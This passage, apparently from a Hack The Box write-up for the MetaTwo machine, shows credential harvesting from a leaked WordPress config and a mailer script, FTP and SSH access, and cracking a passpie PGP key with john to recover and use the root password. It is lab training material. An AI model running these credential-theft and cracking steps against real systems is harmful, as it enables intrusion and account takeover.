h0/vgAe8AksuA82SzcIpuRI53zfTk/+Ojzl3c4VYNl8ucWyAAfYzuI2X+w0RBawjSPCuTN3tu7lGJZiC1AAoryfMiac2U5CrO6a2Y7AhV0YQWdYudPJwp0x76r/Nw== - No such file or directory    
```

Write this to `decode.php` file.

```php
<?php 
echo zlib_decode(base64_decode('jVVZU/JKEH2+VvkfhhKMoARUQBARAoRNIEDCpgUhIRMSzEYyYVP87TdBBD71LvAANdNzTs/p6dMPaUMyTk9CgQBgJAg0ToVAFwFy/gsc4njOgkDUTdDVTaFhQssCgdDpiQBFWYMXAMtn2TpRI7ErgPGKPsGAP3l68glXW9HN6gHEtqC5Rf9+vk2Trf9x3uAsa+Ek8eN8g6DpLtXKuxix2ygxyzDCzMwteoX28088SbfQr2mUKJpxIRR9zClu1PHZ/FcWOYkzLYgA0t0LAVkDYxNySNYmh0ydHwVa+A+GXIlo0eSWxEZiXOUjxxSu+gcaXVE45ECtDIiDvK5hCIwlTps4S5JsAVl0qQXd5tEvPFS1SjDbmnwR7LcLNFsjmRK1VUtEBlzu7nmIYBr7kqgQcYZbdFxC/C9xrvRuXKLep1lZzhRWVdaI1m7q88ov0V8KO7T4fyFnCXr/qEK/7NN01dkWOcURa6/hWeby9AQEAGE7z1dD8tgpjK6BtibPbAie4MoCnCYAmlOQhW8jM5asjSG4wWN42F04VpJoMyX2iew7PF8fLO159tpFKkDElhQZXV4ZC9iIyIF1Uh2948/3vYy/2WoWeq+51kq524zMXqeYugXa4+WtmsazoftvN6HJXLtFssdM2NIre/18eMBfj20jGbkb9Ts2F6qUZr5AvE3EJoMwv9DJ7n3imnxOSAOzq3RmvnIzFjPEt9SA832jqFLFIplny/XDVbDKpbrMcY3I+mGCxxpDNFrL80dB2JCk7IvEfRWtNRve1KYFWUba2bl2WerNB+/v5GXhI/c2e+qtvlHUqXqO/FMpjFZh3vR6qfBUTg4Tg8Doo1iHHqOXyc+7fERNkEIqL1zgZnD2NlxfFNL+O3VZb08S8RhqUndU9BvFViGaqDJHFC9JJjsZh65qZ34hKr6UAmgSDcsik36e49HuMjVSMnNvcF4KPHzchwfWRng4ryXxq2V4/dF6vPXk/6UWOybscdQhrJinmIhGhYqV9lKRtTrCm0lOnXaHdsV8Za+DQvmCnrYooftCn3/oqlwaTju59E2wnC7j/1iL/VWwyItID289KV+6VNaNmvE66fP6Kh6cKkN5UFts+kD4qKfOhxWrPKr5CxWmQnbKflA/q1OyUBZTv9biD6Uw3Gqf55qZckuRAJWMcpbSvyzM4s2uBOn6Uoh14Nlm4cnOrqRNJzF9ol+ZojX39SPR60K8muKrRy61bZrDKNj7FeNaHnAaWpSX+K6RvFsfZD8XQQpgC4PF/gAqOHNFgHOo6AY0rfsjYAHy9mTiuqqqC3DXq4qsvQIJIcO6D4XcUfBpILo5CVm2YegmCnGm0/UKDO3PB2UtuA8NfW/xboPNk9l28aeVAIK3dMVG7txBkmv37kQ8SlA24Rjp5urTfh0/vgAe8AksuA82SzcIpuRI53zfTk/+Ojzl3c4VYNl8ucWyAAfYzuI2X+w0RBawjSPCuTN3tu7lGJZiC1AAoryfMiac2U5CrO6a2Y7AhV0YQWdYudPJwp0x76r/Nw==')); 
?>
```

Then, let's decode it.

```bash
┌──(kali㉿kali)-[~/htb/CVE-2021-29447-PoC]
└─$ php decode.php
<?php
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );

/** MySQL database username */
define( 'DB_USER', 'blog' );

/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );

/**#@+
 * Authentication Unique Keys and Salts.
 * @since 2.6.0
 */
define( 'AUTH_KEY',         '?!Z$uGO*A6xOE5x,pweP4i*z;m`|.Z:X@)QRQFXkCRyl7}`rXVG=3 n>+3m?.B/:' );
define( 'SECURE_AUTH_KEY',  'x$i$)b0]b1cup;47`YVua/JHq%*8UA6g]0bwoEW:91EZ9h]rWlVq%IQ66pf{=]a%' );
define( 'LOGGED_IN_KEY',    'J+mxCaP4z<g.6P^t`ziv>dd}EEi%48%JnRq^2MjFiitn#&n+HXv]||E+F~C{qKXy' );
define( 'NONCE_KEY',        'SmeDr$$O0ji;^9]*`~GNe!pX@DvWb4m9Ed=Dd(.r-q{^z(F?)7mxNUg986tQO7O5' );
define( 'AUTH_SALT',        '[;TBgc/,M#)d5f[H*tg50ifT?Zv.5Wx=`l@v$-vH*<~:0]s}d<&M;.,x0z~R>3!D' );
define( 'SECURE_AUTH_SALT', '>`VAs6!G955dJs?$O4zm`.Q;amjW^uJrk_1-dI(SjROdW[S&~omiH^jVC?2-I?I.' );
define( 'LOGGED_IN_SALT',   '4[fS^3!=%?HIopMpkgYboy8-jl^i]Mw}Y d~N=&^JsI`M)FJTJEVI) N#NOidIf=' );
define( 'NONCE_SALT',       '.sU&CQ@IRlh O;5aslY+Fq8QWheSNxd6Ve#}w!Bq,h}V9jKSkTGsv%Y451F8L=bL' );

/**
 * WordPress Database Table prefix.
 */
$table_prefix = 'wp_';

/**
 * For developers: WordPress debugging mode.
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/' );
}

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';

```

Luckily, I can find `ftp` credential : 
- `blog` : `635Aq@TdqrCwXFUZ`
- `metapress.htb` : `9NYS_ii@FyL_p5M2NvJ`

Let's try this two credentials to `ftp` service.

```bash
┌──(kali㉿kali)-[~/htb/CVE-2021-29447-PoC]
└─$ ftp blog@metapress.htb
Connected to metapress.htb.
220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
331 Password required for blog
Password: 
530 Login incorrect.
ftp: Login failed


┌──(kali㉿kali)-[~/htb/CVE-2021-29447-PoC]
└─$ ftp metapress.htb@metapress.htb
Connected to metapress.htb.
220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
331 Password required for metapress.htb
Password: 
230 User metapress.htb logged in
Remote system type is UNIX.
Using binary mode to transfer files.
```

The credential for `metapress.htb` works!


# Shell as `jnelson`

### FTP enumeration

There are two directories : `/blog`, `/mailer`
Among this, `/blog` is as same as wordpress webroot.
Let's take a look at `/mailer`.

```shell
ftp> cd mailer
250 CWD command successful
ftp> ls
229 Entering Extended Passive Mode (|||1671|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x   4 metapress.htb metapress.htb     4096 Oct  5  2022 PHPMailer
-rw-r--r--   1 metapress.htb metapress.htb     1126 Jun 22  2022 send_email.php
226 Transfer complete
ftp> get send_email.php
local: send_email.php remote: send_email.php
229 Entering Extended Passive Mode (|||20518|)
150 Opening BINARY mode data connection for send_email.php (1126 bytes)
100% |******************************|  1126      601.20 KiB/s    00:00 ETA
226 Transfer complete
1126 bytes received in 00:00 (8.29 KiB/s)
ftp> exit
221 Goodbye.


┌──(kali㉿kali)-[~/htb/CVE-2021-29447-PoC]
└─$ cat send_email.php 
<?php
/*
 * This script will be used to send an email to all our users when ready for launch
*/

use PHPMailer\PHPMailer\PHPMailer;
use PHPMailer\PHPMailer\SMTP;
use PHPMailer\PHPMailer\Exception;

require 'PHPMailer/src/Exception.php';
require 'PHPMailer/src/PHPMailer.php';
require 'PHPMailer/src/SMTP.php';

$mail = new PHPMailer(true);

$mail->SMTPDebug = 3;                               
$mail->isSMTP();            

$mail->Host = "mail.metapress.htb";
$mail->SMTPAuth = true;                          
$mail->Username = "jnelson@metapress.htb";                 
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";                           
$mail->SMTPSecure = "tls";                           
$mail->Port = 587;                                   

$mail->From = "jnelson@metapress.htb";
$mail->FromName = "James Nelson";

$mail->addAddress("info@metapress.htb");

$mail->isHTML(true);

$mail->Subject = "Startup";
$mail->Body = "<i>We just started our new blog metapress.htb!</i>";

try {
    $mail->send();
    echo "Message has been sent successfully";
} catch (Exception $e) {
    echo "Mailer Error: " . $mail->ErrorInfo;
}
```

Bingo! It has `jnelson`'s credential!
`jnelson` is the only user except `root` which has valid shell : `Cb4_JmWM8zUZWMu@Ys`

```vbnet
┌──(kali㉿kali)-[~/htb]
└─$ ssh jnelson@metapress.htb
jnelson@metapress.htb's password: 
Linux meta2 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Oct 25 12:51:26 2022 from 10.10.14.23
jnelson@meta2:~$ id
uid=1000(jnelson) gid=1000(jnelson) groups=1000(jnelson)
```

I got `jnelson`'s shell!

# Shell as `root`

### Enumeration

```bash
jnelson@meta2:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for jnelson: 
Sorry, user jnelson may not run sudo on meta2.


jnelson@meta2:~$ find / -perm -4000 2>/dev/null
/usr/bin/mount
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/umount
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/passwd
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper


jnelson@meta2:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

Additionally, let's run `linpeas`..

```ruby
══╣ Possible private SSH keys were found!
/home/jnelson/.passpie/.keys
```

It finds hidden directory : `.passie`

```bash
jnelson@meta2:~/.passpie/ssh$ passpie
╒════════╤═════════╤════════════╤═══════════╕
│ Name   │ Login   │ Password   │ Comment   │
╞════════╪═════════╪════════════╪═══════════╡
│ ssh    │ jnelson │ ********   │           │
├────────┼─────────┼────────────┼───────────┤
│ ssh    │ root    │ ********   │           │
╘════════╧═════════╧════════════╧═══════════╛

jnelson@meta2:~/.passpie$ ls -al
total 24
dr-xr-x--- 3 jnelson jnelson 4096 Oct 25  2022 .
drwxr-xr-x 5 jnelson jnelson 4096 Dec  8 13:45 ..
-r-xr-x--- 1 jnelson jnelson    3 Jun 26  2022 .config
-r-xr-x--- 1 jnelson jnelson 5243 Jun 26  2022 .keys
dr-xr-x--- 2 jnelson jnelson 4096 Oct 25  2022 ssh
```

`passpie` is a command line tool to manage passwords in linux system..
This seems to store `jnelson`, and `root`'s passwords!

`passpie` requires passphrase to see the passwords in plaintext.
So I downloaded `.keys` file to crack PGP.

```
┌──(kali㉿kali)-[~/htb]
└─$ scp jnelson@metapress.htb:~/.passpie/.keys ./keys
jnelson@metapress.htb's password: 
.keys                                    100% 5243    20.0KB/s   00:00    


# Split private key from public key and save it to `keys.priv`


┌──(kali㉿kali)-[~/htb]
└─$ gpg2john keys.priv > keys.priv.john

File keys.priv


┌──(kali㉿kali)-[~/htb]
└─$ cat keys.priv.john
Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) <passpie@local>::keys.priv


┌──(kali㉿kali)-[~/htb]
└─$ john keys.priv.john --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65011712 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 7 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
blink182         (Passpie)     
1g 0:00:00:02 DONE (2024-12-08 09:10) 0.5000g/s 128.0p/s 128.0c/s 128.0C/s carolina..freedom
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

The cracked passphrase is `blink182`!
Let's try using it on `passpie`.

```bash
jnelson@meta2:~/.passpie$ passpie export ../passwords.db
Passphrase: 
jnelson@meta2:~/.passpie$ cd ..
jnelson@meta2:~$ ls
linpeas_linux_amd64  passwords.db  user.txt
jnelson@meta2:~$ cat passwords.db 
credentials:
- comment: ''
  fullname: root@ssh
  login: root
  modified: 2022-06-26 08:58:15.621572
  name: ssh
  password: !!python/unicode 'p7qfAZt4_A1xo_0x'
- comment: ''
  fullname: jnelson@ssh
  login: jnelson
  modified: 2022-06-26 08:58:15.514422
  name: ssh
  password: !!python/unicode 'Cb4_JmWM8zUZWMu@Ys'
handler: passpie
version: 1.0
```

It successfully extract passwords!
`root`'s password is `p7qfAZt4_A1xo_0x`!

Let's escalate the `jnelson`'s shell to `root` using `su`!

```bash
jnelson@meta2:~$ su -
Password: 
root@meta2:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Now I got `root`!